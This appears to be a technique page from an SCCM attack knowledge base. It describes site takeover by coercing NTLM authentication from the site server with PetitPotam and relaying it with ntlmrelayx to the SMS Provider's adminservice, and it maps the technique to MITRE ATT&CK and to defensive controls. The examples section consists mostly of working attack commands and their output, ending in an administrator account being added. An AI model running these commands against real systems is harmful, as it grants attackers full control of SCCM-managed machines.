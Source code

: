 # Site Takeover via NTLM Coercion and Relay from Site Server to SMS Provider

## Code Name
- SITETAKEOVER02

## ATT&CK TTPs
- [T1078.002 - Valid Accounts](https://attack.mitre.org/techniques/T1078/002/)
- [T1187 - Forced Authentication](https://attack.mitre.org/techniques/T1187/)

## Required Privilege / Context
Valid domain credentials with network connectivity to the primary site server and SMS Provider.

## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM component servers for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.
The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a primary site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Examples
- Use SCCMHunter to profile SCCM component server roles
- Use PetitPotam to coerce authentication from primary site server
- Use NTLMrelayx to relay credentials to remote SMS Provider

### SCCMHunter
```
[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 sccm.internal.lab

                           
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

### NTLMRelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\secter" --objectsid "S-1-5-21-2391214593-4168590120-2599633397-1133" -smb2support -t https://provider.internal.lab/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://provider.internal.lab as LAB/SCCM$
[*] Skipping user SCCM$ since attack was already performed
[*] Server returned code 201, attack successful

```


## Defensive IDs
- [PROTECT01](../../defense-techniques/PROTECT01/protect01-description.md)
- [PROTECT10](../../defense-techniques/PROTECT10/protect10-description.md)
- [DETECT01](../../defense-techniques/DETECT01/detect01-description.md)


## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview